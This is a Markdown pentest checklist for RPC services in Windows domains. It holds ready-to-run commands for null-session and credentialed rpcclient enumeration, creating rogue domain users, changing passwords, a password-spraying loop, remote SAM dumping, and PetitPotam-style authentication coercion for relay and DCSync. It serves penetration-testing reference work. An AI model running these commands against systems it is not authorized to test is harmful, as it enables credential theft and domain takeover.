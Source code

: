 # RPC Pentesting Checklist & Commands

## 🎯 What am I realistically expecting to find here?

⭐ After enumerating RPC (typically port 135 or 111), I realistically expect to find:

- [ ] Null sessions that allow anonymous access  
- [ ] Domain users, groups, and SID info  
- [ ] Misconfigurations allowing domain user creation or deletion  
- [ ] Privileged account info or share listings  
- [ ] Ability to coerce authentication (PetitPotam, etc.)  
- [ ] SAM or LSA secrets (if credentials are valid)  
- [ ] Possible lateral movement or escalation via RPC abuse  

---

## ✅ RPC Pentest Checklist

- [ ] **Basic RPC Enumeration**
  - Identify RPC services, ports, and bindings.
    ```
    nmap -sV -sC -p135 <IP>
    rpcinfo -p <IP>
    rpcbind -p <IP>
    ```

- [ ] **RPCClient Null Session**
  - Check for access without authentication.
    ```
    rpcclient -U '' -N <IP>
    ```

- [ ] **RPCClient With Credentials**
  - Run useful enumeration commands.
    ```
    rpcclient -U 'user%pass' <IP>
    ```

  - Common interactive commands:
    ```
    querydominfo
    enumdomusers
    enumdomgroups
    enumprivs
    enumdomains
    getdompwinfo
    lsaenumsid
    lsaquery
    dsroledominfo
    ```

- [ ] **User-Specific Enumeration**
  - Focus on a single user or SID.
    ```
    queryuser <username>
    lookupnames <username>
    lsaenumprivsaccount <SID>
    ```

- [ ] **Group & Share Enumeration**
  - Investigate access rights and shares.
    ```
    enumalsgroups builtin
    netshareenum
    netshareenumall
    netsharegetinfo Confidential
    ```

- [ ] **Create & Manage Domain Users (if permitted)**
    ```
    createdomuser hacker
    setuserinfo2 hacker 24 Password@1
    deletedomuser hacker
    ```

- [ ] **Manage Groups (if permitted)**
    ```
    createdomgroup newgroup
    deletedomgroup newgroup
    ```

- [ ] **Change User Password (if permitted)**
    ```
    chgpasswd user1 OldPass123 NewPass456
    ```

- [ ] **Check Accounts Using Scripted Loop**
  - Validate multiple accounts against RPC:
    ```
    for u in $(cat valid_users.txt); do rpcclient -U "$u%Welcome1" -c "getusername;quit" <IP> | grep Authority; done
    ```

---

## ✅ Python-Based RPC Tools

- **Coerce Authentication (PetitPotam)**
    ```
    python3 PetitPotam.py -d test.local -u john -p password123 <TargetDC> <Listener>
    ```

- **List Remote Services**
    ```
    python3 services.py test.local/john:password123@<IP> list
    ```

- **Dump SAM Remotely**
    ```
    python3 samrdump.py test.local/john:password123@<IP>
    ```

- **Full RPC Dump**
    ```
    python3 rpcdump.py test.local/john:password123@<IP>
    ```

- **SID Lookup**
    ```
    python3 lookupsid.py test.local/john:password123@<IP>
    ```

- **DCSync with NTLM Relay Tool**
    ```
    python3 dementor.py -u john -p password123 -d test.local <DC> <RelayListener>
    ```

---

## ✅ Metasploit Modules

- **RPC User Enumeration**
    ```
    use auxiliary/scanner/dcerpc/endpoint_mapper
    ```

- **NetShare Enum**
    ```
    use auxiliary/admin/smb/smb_enumshares
    ```
